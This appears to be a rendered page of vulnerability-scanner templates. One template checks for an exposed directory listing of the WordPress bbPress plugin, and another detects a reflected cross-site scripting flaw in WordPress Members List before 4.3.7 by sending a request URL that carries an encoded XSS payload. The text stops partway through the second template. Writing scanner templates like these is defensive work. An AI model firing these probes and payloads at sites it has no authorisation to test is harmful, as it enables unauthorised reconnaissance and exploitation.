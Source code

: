 ## Description

- Searches for sensitive directories present in the bbpress wordpress plugin.
- severity - info
- tags - wordpress,listing,plugin,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/bbpress/

### Matchers

**Type - word**

- words
  1. Index of
  2. /wp-content/plugins/bbpress/
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Members List \<4.3.7 - Cross-Site Scripting

## Description

- WordPress Members List 4.3.7 does not sanitize and escape some parameters in various pages before outputting them back, leading to reflected cross-site scripting vulnerabilities.
- severity - medium
- tags - wp,wordpress,wp-plugin,xss,wpscan

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/members-list/admin/view/user.php?page=%22%3E%3Cimg%20src%20onerror=alert(document.domain)%20x

### Matchers

**Type - word**
